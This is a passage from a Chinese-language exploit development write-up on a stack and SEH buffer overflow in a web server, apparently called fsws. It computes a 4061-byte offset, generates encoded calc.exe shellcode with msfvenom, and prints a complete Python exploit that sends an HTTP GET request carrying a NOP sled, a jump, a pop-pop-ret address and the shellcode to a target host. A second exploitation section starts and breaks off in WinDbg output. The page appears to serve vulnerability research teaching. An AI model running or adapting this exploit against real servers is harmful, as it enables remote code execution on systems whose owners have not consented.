 那么执行完`ret`后`03226fa4`将作为返回地址赋给eip，这里需要计算`03226fa4`在payload中的位置以便布置shellcode,`03226fa4与payload首部距离=0x03226fa4-0x03225fa4-len("select * from sqltable where name='")=4061`，在payload偏移4061处可以填充一个4字节的向前跳转或向后跳转指令，但注意其后的异常处理句柄的位置。这里使用的shellcode是用`msfvenom`生成的打开一个计算器的shellcode`msfvenom -p windows/exec CMD=calc.exe -e x86/shikata_ga_nai -i 2 -f python -b '\x00\x0a\x0d\x20\x5c\x2c\x25\x2f'`,需要注意的是应该尽量避免特殊字符对payload的影响。于是编写如下exp
```python
# coding=utf-8
# fileName: exp.py
# usage: python exp.py ip
# shellcode by 'msfvenom' use: msfvenom -p windows/exec CMD=calc.exe -e
#                                x86/shikata_ga_nai -i 2 -f python -b '\x00\x0a\x0d\x20\x5c\x2c\x25\x2f'

from socket import *
import sys

buf =  ""
buf += "\xbe\xa6\x51\x73\xac\xdb\xcc\xd9\x74\x24\xf4\x5a\x29"
buf += "\xc9\xb1\x38\x83\xc2\x04\x31\x72\x0e\x03\xd4\x5f\x91"
buf += "\x59\xa6\xfb\x5a\x4e\x3f\x21\xae\x57\xcb\xf2\xdb\x30"
buf += "\x18\x32\x92\xf0\x6f\xb4\xc6\xf1\xff\x27\x6a\x35\x60"
buf += "\xaa\x75\xa3\xe9\x46\x67\x2d\x92\xbd\x0c\xb1\x2a\xa9"
buf += "\xdd\xf2\xba\x76\xba\xf9\x3e\x39\x34\xbc\xa1\xe7\xc0"
buf += "\x71\xf5\x6f\x3c\x8d\xac\xd1\x7c\xf1\x87\xa9\x6a\x4e"
buf += "\xc7\xba\xfc\xcf\xb2\x52\x7c\x1c\x32\x4f\x4a\x67\x71"
buf += "\x3f\x37\x08\xf2\x6b\xb5\x5b\x33\xc4\x79\x61\x8f\xe5"
buf += "\x9f\xc2\x86\xc0\x88\xb4\x56\x33\x56\xfd\x42\xcf\x68"
buf += "\x61\xff\xd3\xd6\x40\x45\x24\x48\x5a\xc5\xcb\x5e\xfd"
buf += "\x4a\xa1\xb1\xa6\xb6\xf0\x37\x98\x12\x18\x14\x7d\x0f"
buf += "\xd3\x1f\xea\xf6\x50\x97\xdc\x75\x9d\x34\x6f\xfc\x56"
buf += "\xe7\xec\xf6\x1b\x6f\xf5\x57\x4b\xd9\xe4\x68\x45\xcf"
buf += "\x58\x76\x4e\x9d\x53\x7a\x62\x6c\x34\xd8\x86\xed\x5a"
buf += "\xf4\x82\x93\x53\x18\xe6\x04\xe8\xd3\x12\x6a\xa1\xa3"
buf += "\xe6\xf0\x4e\x53\x65\x24\xd0\xf2\xa5\xfd\x4d\x11\xa4"
buf += "\xa8\x1b\x4c\x3e\x13\xc3\xfe\x17\x5b\x08\x16\x50\xfe"
buf += "\x1c\xb9\xb8\xee\x74\x7b\x3c\x82\x0c\x26\x39\x72\x77"
#247 bytes
RHOST = sys.argv[1]
RPORT = 80
payload = '\x90'*4061 #junk code
payload += '\xeb\x06\x90\x90' #jmp higher addr;offset = 8-2 = 6 = 0x06
payload += '\x5f\xab\x01\x10' #'pop pop return' addr 0x1001ab5f
payload += buf #shellcode

s = socket(AF_INET,SOCK_STREAM)
s.connect((RHOST,RPORT))
s.send('GET '+payload+' HTTP/1.0\r\n\r\n')
print 'done.'
s.close()
```
***
## 漏洞利用（二）
利用（一）中的分析，如果传入的payload长度为`4193`这时payload无法覆盖到eax那么就不会引起内存访问异常，但是实际上它会引起返回地址被覆盖，从而我们可以利用覆盖返回地址来利用漏洞。下面要确定返回地址在何处被覆盖，这里在前面分析的能造成漏洞的`_sprintf`处下断点并找到离漏洞触发最近的一次
```
0:007> g
Breakpoint 0 hit
eax=030849a8 ebx=00001001 ecx=030849f8 edx=03185fa4 esi=03187028 edi=02ebe1c4
eip=0049747e esp=03185f6c ebp=031875f4 iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000202
fsws+0x9747e:
0049747e e8f71b0600      call    fsws+0xf907a (004f907a)
0:009> dd esp
```